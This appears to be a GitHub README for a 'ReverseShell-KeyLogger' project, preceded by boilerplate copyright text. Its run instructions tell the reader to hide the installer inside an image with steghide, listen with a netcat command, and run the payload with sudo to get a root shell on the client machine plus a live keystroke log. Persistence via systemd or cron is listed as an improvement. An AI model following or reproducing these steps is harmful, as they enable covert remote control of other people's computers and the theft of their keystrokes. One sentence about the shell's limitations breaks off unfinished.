# ReverseShell-KeyLogger



!!! DISCLAIMER!!!

This object is protected by copyright and/or related rights. You are free to use this item in any manner permitted by the copyright and related rights legislation that applies to your use. Furthermore, no authorization is required from the owner(s) of the rights for educational uses. For other uses it is necessary to obtain permission from the rights holder(s).

Notices
You may need to obtain other permissions for your intended use. Other rights such as publicity, privacy or moral rights may limit how we can use the material.
Unless otherwise explicitly stated, the organization that made this item available makes no warranty regarding the item and cannot guarantee the accuracy of this statement of rights. You are responsible for your own use.
Further information on the copyright of this object can be found on the website of the organization that made the object available.






REVERSE SHELL:

At the moment it only works on a local network, to use it remotely you must use an SSH connection.
The terminal used is very bland, in tools like "nano" the shortcuts are blocked. Clarification if you open for example an image with "display img.jpg" this will open on the host computer and not on the client, furthermore various shortcuts like "tab" for automatic completion do not work.
There are also the




KEYLOGGER:

The keylogger however works well.




TEST:

The tests were done on my PC, Ubuntu client machine and Kali host machine (on VirtualBox).
Not tested on Windows or Mac at the moment so I can tell if they work but I have provided some pseudo-working codes anyway.




POSSIBLE IMPROVEMENTS:

(1) Improve the terminal on the Host machine, perhaps with tmux or similar tools;

(2) Create SSH connection instead of just local;

(3) Make the script persistent by creating (for Linux) with either systemd or crontb, where at each restart the service restarts in sudo mode.





How to make it run?

(1) Take the install.py file (located in lib/), put the IP of the host machine (I therefore put the IP of my Kali machine), the port if you want, leave the one I put.

(2) Install "steghide" (steganography tool), then go to the root of the project with the terminal, move the "install.py" file there (where "img.jpg" is) and write "steghide embed -cf img.jpg -ef install.py -p "hide" -sf img_new.jpg", delete "img.jpg" and rename it "img_new.jpg" to "img.jpg", and also delete "install.py"

(3) Go to Host machine and issue netcat command "nc -lvnp 4444", now the host is listening on port "4444".

(4) Now you have to start the file with sudo, for example if you are on Linux, start with sudo "install_linux.sh". From here on (until the client or host ends) the connection is established. You will be able to navigate the client PC with root privileges, and you will also be able to see the keylogger log in the root folder of the project by going to "lib/" there will be a file that is updated live called "info_log.txt" with everything that the keylogger records of the client headboard.
